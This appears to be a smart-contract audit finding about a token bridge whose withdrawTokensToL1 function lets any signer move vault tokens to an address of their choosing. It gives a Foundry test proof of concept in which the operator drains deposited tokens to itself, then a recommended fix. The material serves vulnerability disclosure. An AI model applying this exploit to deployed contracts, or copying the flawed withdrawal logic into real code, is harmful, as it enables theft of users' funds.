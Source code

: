 The `withdrawTokensToL1` function in the smart contract allows any signer to withdraw tokens from the vault to a specified address. This can lead to unauthorized withdrawal of tokens by malicious signers.

## Vulnerability Details

The vulnerability lies in the `withdrawTokensToL1` where the `abi.encodeCall` is used to construct a call to the `transferFrom` function of the `token` contract. However, the `transferFrom` call is made with the `vault` as the `from` address, and an arbitrary`to` address specified by the signer. This allows any signer to transfer tokens to an address of their choice, potentially stealing the user's tokens.

Foundry (put in test file) PoC :

```
function testSignersStealTheVaultPoC() public {
        // user send money to the bridge
        testUserCanDepositTokens();

        // withdraw to the operator address (steal user's money)
        vm.startPrank(operator.addr);
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(operator.addr, 10e18),
            operator.key
        );
        tokenBridge.withdrawTokensToL1(operator.addr, 10e18, v, r, s);

        // Check the success of the steal
        assertEq(token.balanceOf(operator.addr), 10e18);

        // Give back money because we are white hats, not sneaky thief.

        token.transfer(address(vault), 10e18);
        assertEq(token.balanceOf(operator.addr), 0);
        vm.stopPrank();
    }
```

## Impact

Loss of all funds : Any signers who sign a withdrawal to their accounts can steal all the money

## Tools Used

Manual review

## Recommendations

To fix this vulnerability, the `withdrawTokensToL1` function should be modified to define, thanks to blockchain automation (and oracles), the `to` parameter without the need of a signer or any other user. This will ensure that tokens are transferred from the vault to the user who ask for a withdraw, preventing unauthorized withdrawals.
